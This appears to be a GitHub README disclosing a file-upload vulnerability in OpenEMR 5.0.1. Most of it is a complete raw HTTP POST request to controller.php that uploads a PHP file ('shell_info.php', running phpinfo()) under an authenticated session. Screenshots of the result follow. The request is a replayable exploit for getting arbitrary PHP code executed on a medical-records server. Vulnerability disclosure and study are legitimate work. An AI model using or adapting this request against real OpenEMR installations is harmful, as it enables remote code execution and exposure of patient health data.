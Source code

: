 # OpenEMR_Vulnerabilities
[OpenEMR 5.0.1](https://www.open-emr.org/) allows an authenticated attacker to upload and execute malicious php codes.


# CVE-2020-XXXXX
To exploit vulnerability, someone could use 'http://[HOST]/controller.php?document&upload&patient_id=00&parent_id=4&' post request to upload malicious php codes.

```
POST /openemr-5.0.1/controller.php?document&upload&patient_id=00&parent_id=4& HTTP/1.1
Host: 172.16.155.140
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.155.140/openemr-5.0.1/controller.php?document&upload&patient_id=00&parent_id=4&
Content-Type: multipart/form-data; boundary=---------------------------141194333536146869123947219434
Content-Length: 842
Origin: http://172.16.155.140
DNT: 1
Connection: close
Cookie: OpenEMR=t1lugo5qrbhv7mc2c3q9ricsnl; TreeMenuBranchStatus=objTreeMenu_1_node_1_9; PHPSESSID=dfhapc4v0bskt7pcpmc2j93agq; LS-VQGNEIWNPEBSNBWE=6rm848pgjj78hhecpb9roo8af1; YII_CSRF_TOKEN=OWYyM0lybGFtRF9wcHRkZ1lldF9WblhoVHlVNk5HRW3WMnZhghJHNtBjyIuALM94Ww3gltGLoeKETBSfevfbCw%3D%3D
Upgrade-Insecure-Requests: 1

-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="MAX_FILE_SIZE"

64000000
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="file[]"; filename="shell_info.php"
Content-Type: text/php

<?php
phpinfo();
?>
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="destination"


-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="patient_id"

00
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="category_id"

4
-----------------------------141194333536146869123947219434
Content-Disposition: form-data; name="process"

true
-----------------------------141194333536146869123947219434--

```

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_001.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_004.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_002.png)

![alt tag](https://emreovunc.com/blog/en/openemr_5_0_1_php_shell_upload_003.png)



